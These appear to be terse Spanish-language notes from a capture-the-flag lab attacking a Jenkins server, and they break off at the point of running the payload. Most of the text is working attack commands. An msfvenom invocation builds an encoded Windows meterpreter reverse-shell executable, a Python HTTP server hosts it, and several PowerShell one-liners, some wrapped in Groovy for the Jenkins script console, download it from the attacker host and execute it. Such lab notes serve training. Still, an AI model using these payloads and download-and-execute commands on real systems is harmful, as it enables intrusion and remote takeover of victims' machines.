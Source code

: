 
┌──(root㉿kali)-[~/Downloads]
└─# msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.217.63 LPORT=4444 -f exe -o shell-paimon.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
Saved as: shell-paimon.exe







LO SERVIMOS CON SERVER PYTHON:



┌──(root㉿kali)-[~/Downloads]
└─# python3 -m http.server 8081 
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.234.163 - - [22/Jan/2024 00:41:29] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
10.10.234.163 - - [22/Jan/2024 00:41:33] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -






DESCARAMOS EL ARCHIVO CREADO POR MSFVENOM EN LA MAQUINA VICTIMA JENKINS PARA LUEGO EJECUTARLO Y TENER LA CONEXION EN MULTIHANDLER CON LA SESIUON DE METERPRETER:



PRUEBAS NOMAS:


println "powershell iex (New-Object Net.WebClient).DownloadString(\'http://10.10.217.63:8081/shell-paimon.exe\');shell-paimon.exe".execute().text

println "powershell (New-Object System.Net.WebClient).Downloadfile('http://10.10.217.63:8081/shell-paimon.exe\','shell-paimon.exe')

powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.217.63:8081/shell-paimon.exe','shell-paimon.exe')"

println "powershell iex (New-Object Net.WebClient).DownloadString(\'http://10.10.217.63:8081/shell-paimon.exe\');shell-paimon.exe".execute().text






METERPRETER:

<strong>powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.143.22:8081/shell-paimon.exe','shell-paimon.exe')"
</strong>
EJECUTAMOS EL ARCHIVO:
